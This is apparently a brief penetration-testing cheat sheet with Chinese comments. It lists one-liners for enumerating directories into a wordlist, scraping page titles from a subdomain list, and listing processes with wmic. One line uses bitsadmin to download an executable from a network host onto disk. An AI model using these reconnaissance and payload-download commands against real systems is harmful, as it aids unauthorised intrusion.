 		for /R "d:\xldown" %s in (.) do echo %s >> dir.dict	#win遍历目录
		dir /s/b d:\xldown					#win遍历目录带搜索功能
		find ./ -type f 					#linux 遍历文件
		
		for i in $(cat subdomains.dict);do echo $i && curl -s $i|iconv -t utf8|grep -o "<title.*</title>";done		获取title
		bitsadmin /rawreturn /transfer getfiles http://192.168.1.1/calc.exe c:\calc.exe								下载文件
		wmic process where "name='cmd.exe'" get processid,name,commandline	#wmic查进程

